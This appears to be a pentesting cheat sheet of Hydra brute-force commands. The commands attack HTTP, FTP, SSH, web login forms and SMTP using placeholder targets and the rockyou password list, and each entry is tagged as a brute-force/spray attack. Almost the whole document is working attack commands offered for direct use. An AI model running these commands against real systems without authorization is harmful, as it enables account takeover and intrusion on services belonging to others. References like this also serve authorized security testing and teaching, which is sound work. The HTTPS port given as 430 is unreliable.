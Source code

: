 # Hydra X
% bruteforce, access

## HTTP/HTTPS - port 80/430 using 4 threads
#plateform/linux #target/remote #protocol/http #port/80 #cat/ATTACK/BRUTEFORCE-SPRAY 
```bash
hydra -l <username> -P <passlist> <ip> -t 4
```
## FTP - port 21 using 4 threads
#plateform/linux #target/remote #protocol/ftp #port/21 #cat/ATTACK/BRUTEFORCE-SPRAY 
```bash
hydra -l <username> -P <passlist> ftp://<ip> -t 4
```
## SSH - port 22 using 4 threads
#plateform/linux #target/remote #protocol/ssh #port/22 #cat/ATTACK/BRUTEFORCE-SPRAY 
```bash
hydra -l <username> -P <passlist> <ip> ssh -t 4
```
## Webform - POST/GET - use field values
#plateform/linux #target/remote #protocol/webform #cat/ATTACK/BRUTEFORCE-SPRAY 
```bash
hydra -l <username> -P <passlist> <ip> http-post-form "/<loginpage>:<username_field_value>=^USER^&<password_field_value>=^PASS^&<button_name>=<button_value>:F=<incorrect_string>" -t 4
```
## SMTP/SMTPS - port 587 using 4 threads
#plateform/linux #target/remote #protocol/smtp #port/587 #cat/ATTACK/BRUTEFORCE-SPRAY 
```bash
hydra -l <email> -P <passlist> smtp://<ip> -s <port> -t 4	
```

= userlist: users.txt
= passlist: /usr/share/wordlists/rockyou.txt
